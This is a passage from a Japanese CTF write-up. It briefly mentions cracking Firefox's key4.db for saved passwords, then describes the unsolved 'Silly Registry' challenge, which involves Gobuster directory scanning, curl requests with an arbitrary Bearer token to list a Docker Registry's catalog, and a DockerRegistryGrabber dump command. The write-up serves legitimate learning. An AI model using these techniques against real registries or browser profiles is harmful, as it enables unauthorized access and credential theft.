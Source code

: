 - 余談

わざわざFirefoxを使う必要はなく、`key4.db`をクラックするツールを使えば楽に解けるようです。  
<https://github.com/lclevy/firepwd>

### Silly Registry

解けなかった問題です。

`chal.tuctf.com:30003`が渡されます。  
問題文から何らかのRegistryだろうということはわかりますが、`http://chal.tuctf.com:30003`にアクセスしても何も表示されません。
（空白ページのため、Webサーバは動作しているっぽいです。）

CTFで負荷はかけたくないですが、仕方がないので、Gobusterでディレクトリを探索します。  
すると、`/v2/`というディレクトリが見つかりました。

- `http://chal.tuctf.com:30003/v2/`

```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Docker-Distribution-Api-Version: registry/2.0
Www-Authenticate: Bearer realm="silly-realm",service="silly-service"
X-Content-Type-Options: nosniff
Date: Sat, 02 Dec 2023 15:51:49 GMT
Content-Length: 87
Connection: close

{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
```

HTTPヘッダで調べると、Docker Registryということがわかります。  

以下のcurlでイメージ一覧を取得します。  
Authorizationヘッダの値はなんでも良いみたいでした。

```sh
curl -H 'Authorization: Bearer YWRtaW46YWRtaW4=' http://chal.tuctf.com:30003/v2/_catalog
```

同様に、`http://chal.tuctf.com:30003/v2/silly-container/manifests/latest`を見ると、設定も確認できました。  

しかし、いざpullしようとすると、以下のようなエラーになりました。

```sh
$ docker pull chal.tuctf.com:30003/silly-container:latest
Error response from daemon: Head "http://chal.tuctf.com:30003/v2/silly-container/manifests/latest": Get "silly-realm?scope=repository%3Asilly-container%3Apull&service=silly-service": unsupported protocol scheme ""
```

どうやら、pullする以外にもデータを取得する方法はあるみたいでした。  
<https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry>

DockerRegistryGrabber: <https://github.com/Syzik/DockerRegistryGrabber>

```sh
python drg.py -A 'test' http://chal.tuctf.com:30003/v2/ --dump_all
```

